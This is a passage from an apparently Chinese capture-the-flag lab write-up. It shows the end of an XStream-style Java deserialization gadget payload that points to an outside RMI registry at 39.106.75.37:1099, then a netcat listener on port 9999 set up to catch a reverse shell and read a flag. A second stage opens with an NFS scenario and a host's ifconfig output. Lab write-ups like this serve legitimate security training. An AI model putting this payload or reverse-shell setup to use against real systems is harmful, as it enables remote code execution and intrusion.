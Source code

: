 ```bash
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>39.106.75.37</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>39.106.75.37</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

‍

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217132251-rxqrumf.png?imageSlim)​

再起一个9999端口的监听

```bash
nc -lvvp 9999
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217132410-vlhyl3d.png?imageSlim)​

读flag

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217132417-9fatqek.png?imageSlim)​

## flag02

> 关卡剧情：为了实现跨机器和跨操作系统的文件共享，管理员在内网部署了 NFS，然而这个决策却使得该服务器陷入了潜在的安全风险。你的任务是尝试获取该服务器的控制权，以评估安全性。

ifconfig

```bash
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.13.14  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe0a:9ba5  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:0a:9b:a5  txqueuelen 1000  (Ethernet)
        RX packets 91569  bytes 123849696 (123.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 26861  bytes 3630089 (3.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 512  bytes 44515 (44.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 512  bytes 44515 (44.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
